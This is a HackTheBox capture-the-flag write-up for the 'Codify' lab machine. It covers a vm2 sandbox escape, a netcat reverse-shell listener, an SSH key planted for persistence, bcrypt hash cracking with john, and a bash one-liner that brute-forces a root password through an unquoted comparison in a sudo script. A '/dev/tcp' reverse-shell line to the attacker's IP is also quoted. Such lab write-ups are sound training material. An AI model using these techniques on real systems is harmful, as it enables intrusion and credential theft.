




---
tags:
  - linux
---
# HTB: [Codify](https://app.hackthebox.com/machines/Codify)

> [!tip]- Summary with Spoilers
> - This machine was running a vulnerable version of [vm2](https://github.com/patriksimek/vm2), allowing me to escape the JavaScript sandbox and achieve RCE as the `svc` user.
> - I discovered a SQLite database containing a hashed password for `joshua`, which I cracked to gain access to their account.
> - Using `sudo`, I exploited a misconfigured script to gain `root` access and secured full control of the target.

## Enumerate

```console
$ sudo nmap -nv -sCV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 10:40 CST
[...]
Nmap scan report for 10.10.11.239
Host is up (0.18s latency).
Not shown: 97 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

[...]
Nmap done: 1 IP address (1 host up) scanned in 21.68 seconds
           Raw packets sent: 118 (5.168KB) | Rcvd: 119 (4.780KB)
```

I add an entry for `codify.htb` to `/etc/hosts`. Here's the site:



Here's the `js` vm in action:



From <http://codify.htb/about>:

```text
Our code editor is a powerful tool that allows developers to write and test Node.js code in a user-friendly environment. You can write and run your JavaScript code directly in the browser, making it easy to experiment and debug your applications.

The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```

The engine the target is running, [vm2](https://github.com/patriksimek/vm2), is discontinued and has critical vulnerabilities.



```text
sqlite> select * from tickets;
1|Tom Hanks|Need networking modules|I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!|open
2|Joe Williams|Local setup?|I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.|open
```

## Exploit

PoC: [Sandbox Escape in vm2...](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9)

I had a little trouble getting the reverse shell to work, but I eventually got it working with a `base64`-encoded `python3` shell payload:



On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.239] 46578
$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
$ ls -la /home 
ls -la /home
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12 17:10 .
drwxr-xr-x 18 root   root   4096 Oct 31 07:57 ..
drwxrwx---  3 joshua joshua 4096 Nov  2 12:22 joshua
drwxr-x---  4 svc    svc    4096 Sep 26 10:00 svc

$ mkdir .ssh
mkdir .ssh
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHrYUfv/qSFTn/e0f+C8yrOtzaJh7gq3ugnPVrTMHK2V e@k' > .ssh/authorized_keys
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHrYUfv/qSFTn/e0f+C8yrOtzaJh7gq3ugnPVrTMHK2V e@k' > .ssh/authorized_keys
$ exit
exit

$ ssh svc@$t
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
[...]

svc@codify:~$ 
```

## Escalate

There's a `sqlite3` database with a hash for the user `joshua`:

```console
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> show tables;
Error: in prepare, near "show": syntax error (1)
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

`john` easily cracks the hash:

```console
$ john --wordlist=~/rockyou.txt ./hash --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 0.00% (ETA: 2023-11-08 10:30) 0g/s 75.34p/s 75.34c/s 75.34C/s strawberry..nicole1
0g 0:00:00:08 0.00% (ETA: 2023-11-08 17:25) 0g/s 74.31p/s 74.31c/s 74.31C/s gloria..scorpion
sponge[...]       (?)     
1g 0:00:00:19 DONE (2023-11-06 12:31) 0.05047g/s 70.87p/s 70.87c/s 70.87C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

That password is shared for shell login:

```console
svc@codify:/var/www/contact$ su - joshua
Password: 
joshua@codify:~$ cat ~/user.txt 
5cb1b8[...]

joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

`sudo` grants access to a vulnerable script:

```console
svc@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

svc@codify:~$ ls -ld /var/backups/
drwxr-xr-x 3 root root 4096 Nov  6 00:00 /var/backups/
```

There's a problem with the unquoted string comparison in that script. The right side of the comparison is not quoted, so bash does partial pattern matching against it instead of requiring an exact match.

The correct password can be brute-forced with a `bash` one-liner:

```console
joshua@codify:/tmp$ pw=''; while true; do for i in {a..z} {1..9}; do echo "${pw}${i}\*" | sudo /opt/scripts/mysql-backup.sh 2>/dev/null | grep -q '^Password confirmed' && pw="${pw}${i}" && echo $pw ; done; done
k
kl
klj
kljh
kljh1
kljh12
[...]
^C
```

If that had not worked, I could have tried again with uppercase characters and symbols (…although I'm writing this with the benefit of hindsight having brute-forced the password another way.)

I'm also able to recover the password using [pspy](https://github.com/DominicBreuker/pspy) by running the script and inspecting the args for `mysql`. I use `scp` to place a static version of `pspy` on the target and start it up, while running the vulnerable script in another shell:

```console
joshua@codify:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/13 18:16:09 CMD: UID=1000  PID=41537  | /tmp/pspy64
[...]
2023/11/13 18:16:48 CMD: UID=0     PID=41565  | /bin/bash /opt/scripts/mysql-backup.sh
2023/11/13 18:16:48 CMD: UID=0     PID=41564  | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12[...] -e SHOW DATABASES;
[...]
```

The recovered password works for the root account as well:

```console
joshua@codify:/opt/scripts$ su - root
Password: 
root@codify:~# cat root.txt
ff91e4[...]
```

## Questions

- Why didn't `sh -i >& /dev/tcp/10.10.16.5/443 0>&1` work for the reverse shell? Even when I `base64`-encoded it?

## Summary

This machine had an easy initial foothold via the vulnerable `vm2` web service. From there I could discover a password hash that was also valid for `ssh` login for the admin user. That user had `sudo` access to a script with a flaw in the string comparison, allowing a brute-force approach to recover the MySQL password character-by-character. (This may have been easier using `pspy` to snoop on the cmdline args for `mysql`.) Because of password-reuse, that password also granted shell access to the root account.
